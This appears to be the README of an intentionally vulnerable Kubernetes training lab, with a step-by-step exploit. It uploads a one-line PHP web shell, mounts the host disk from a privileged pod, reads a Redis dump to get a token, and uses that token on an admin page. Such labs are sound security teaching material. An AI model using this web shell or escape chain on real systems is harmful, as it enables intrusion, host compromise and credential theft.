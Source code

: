 # Privileged Pod

1. Install and run [minikube](https://kubernetes.io/docs/setup/learning-environment/minikube/#installation).
2. `./build.sh`

## Web

Vulnerable application with RCE and privileged access.

## Redis

## Admin

## Exploit

1. Upload file `hack.php`:
    ```php
    <?php
    var_dump(system($_GET['cmd']));
    ```
2. http://192.168.99.100/upload/19308ebfbcf54d0ae3fdfab44951f9b7.php?cmd=mkdir /tmp/host
3. http://192.168.99.100/upload/19308ebfbcf54d0ae3fdfab44951f9b7.php?cmd=mount /dev/sda1 /tmp/host
4. http://192.168.99.100/upload/19308ebfbcf54d0ae3fdfab44951f9b7.php?cmd=find /tmp/host -name "dump.rdb"
5. http://192.168.99.100/upload/19308ebfbcf54d0ae3fdfab44951f9b7.php?cmd=cat <👆>
6. http://192.168.99.100/admin?token=<👆>
